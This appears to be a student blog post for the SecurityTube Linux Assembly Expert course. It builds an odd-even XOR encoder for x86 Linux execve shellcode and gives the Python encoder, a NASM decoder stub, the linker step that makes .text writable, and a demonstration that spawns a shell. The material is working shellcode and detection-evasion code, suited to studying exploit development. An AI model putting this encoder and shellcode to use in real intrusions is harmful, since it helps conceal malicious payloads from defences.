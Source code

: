 ```yaml
---
layout: post
title: Assignment #4 > Odd-Even encoder
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```

# Assignment #4
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

My idea for a custom encoder is very simple, in fact. In short, I broke the encoded shellcode in two parts: the even and odd positions. What this encoder does is reading the encoded string byte by byte and treating the bytes in odd and even positions differently. The biggest difficult was to create this decision making mechanism, which consists in two conditional jumps inside a loop. Depending whether it is an odd or even position, the current byte will be XORed with 0xAA or 0xBB.

## Odd-Even XOR encoder
I used `python3.5` for encoding the execve shellcode:

```
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

encoded = ""
encoded2 = ""

for idx, x in enumerate(shellcode):
    if idx%2 == 0:
        y = x ^ 0xaa
    else:
        y = x ^ 0xbb

    encoded += '\\x'
    encoded += '%02x' % (y & 0xff)

    encoded2 += '0x'
    encoded2 += '%02x,' %(y & 0xff)

print(encoded)
print(encoded2)
```

Generating the encoded shellcode:

```
$ python3.5 encoder.py 
\x9b\x7b\xfa\xd3\x85\x94\xd9\xd3\xc2\x94\xc8\xd2\xc4\x32\x49\xeb\x23\x59\xf9\x32\x4b\x0b\xa1\x76\x2a
0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a,
```

## Odd-Even XOR decoder
After JMP-CALL-POP, we are inside the loop which runs over the whole encrypted shellcode (25 bytes). The first thing we do is checking whether the position index is even or odd and jump to the corresponding piece of code. After XORing the current byte of the encoded shellcode, it loops back to the `decode` label, continuing the loop.

```
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25

decode:
	test cl, 1
	jz even   
	jnz odd
even:
	mov bx, [esi]
        xor bx, 0xBB
	mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode
odd:
       mov bx, [esi]
       xor bx, 0xAA
       mov [esi], bl

       inc esi
       loop decode
       jmp short EncodedShellcode

call_shellcode:

	call decoder
	EncodedShellcode: db 0x9b,0x7b,0xfa,0xd3,0x85,0x94,0xd9,0xd3,0xc2,0x94,0xc8,0xd2,0xc4,0x32,0x49,0xeb,0x23,0x59,0xf9,0x32,0x4b,0x0b,0xa1,0x76,0x2a 
``` 

This is a CFG visualization of the decoder generated by IDA.

![Decoder visualization]({{ "/assets/media/decoder.png" | absolute_url }})

## A small caveat
In order to be able to modify the encrypted shellcode (ie to substitute its bytes for the decrypted ones) we must remember it is located in the `.text` section which is not writable by default. 

Lets assemble and link our decoder:

    $ nasm -f elf32 decoder.asm -o decoder.o ; ld -m elf_i386 decoder.o -o decoder

Now we check sessions permissions using `readelf`:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00  AX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

Just confirming where our string is:

    objdump -d decoder | grep EncodedShellcode
    ...
    08048091 <EncodedShellcode>:
    ...

So yeah, in `.text` section, which is not Writable. To make it writable we need to link it with the `-N` parameter:

```
       -N
       --omagic
           Set the text and data sections to be readable and writable.  Also, do not page-align the data segment, and disable linking against
           shared libraries.  If the output format supports Unix style magic numbers, mark the output as "OMAGIC". Note: Although a writable
           text section is allowed for PE-COFF targets, it does not conform to the format specification published by Microsoft.
```

Therefore:

	$ nasm -f elf32 decoder.asm -o decoder.o ; ld -N -m elf_i386 decoder.o -o decoder

Checking permissions:

```
$ readelf -S decoder
There are 5 section headers, starting at offset 0x1fc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        08048060 000060 00004a 00 WAX  0   0 16
  [ 2] .symtab           SYMTAB          00000000 0000ac 0000d0 10      3   9  4
  [ 3] .strtab           STRTAB          00000000 00017c 00005d 00      0   0  1
  [ 4] .shstrtab         STRTAB          00000000 0001d9 000021 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

There we go, writable `.text` section!. Executing it:

```
$ ./decoder 
$ whoami
valle
```

